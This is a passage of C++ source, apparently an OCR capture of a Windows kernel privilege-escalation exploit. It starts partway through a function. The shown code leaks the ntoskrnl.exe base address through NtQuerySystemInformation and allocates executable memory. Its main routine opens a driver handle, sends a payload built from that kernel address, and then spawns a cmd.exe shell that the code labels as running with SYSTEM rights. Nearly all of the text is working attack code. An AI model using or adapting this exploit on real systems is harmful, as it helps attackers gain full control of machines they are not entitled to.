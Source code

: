 ```
        cout << "[!] Failed to get the address of NtQuerySystemInformation." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }
 
    ULONG len = 0;
    NtQuerySystemInformation(SystemModuleInformation,
        NULL,
        0,
        &len);
 
    PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)
        VirtualAlloc(NULL,
            len,
            MEM_RESERVE | MEM_COMMIT,
            PAGE_EXECUTE_READWRITE);
 
    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation,
        pModuleInfo,
        len,
        &len);
 
    if (status != (NTSTATUS)0x0) {
        cout << "[!] NtQuerySystemInformation failed!" << endl;
        exit(1);
    }
 
    PVOID kernelImageBase = pModuleInfo->Modules[0].ImageBaseAddress;
 
    cout << "[>] ntoskrnl.exe base address: 0x" << hex << kernelImageBase << endl;
 
    return (INT64)kernelImageBase;
}
 
void spawn_shell() {
 
    cout << "[>] Spawning nt authority/system shell..." << endl;
 
    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));
 
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
 
    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi);
}
 
int main() {
 
    HANDLE hFile = grab_handle();
 
    INT64 kernel_base = get_kernel_base();
    send_payload(hFile, kernel_base);
    spawn_shell();
```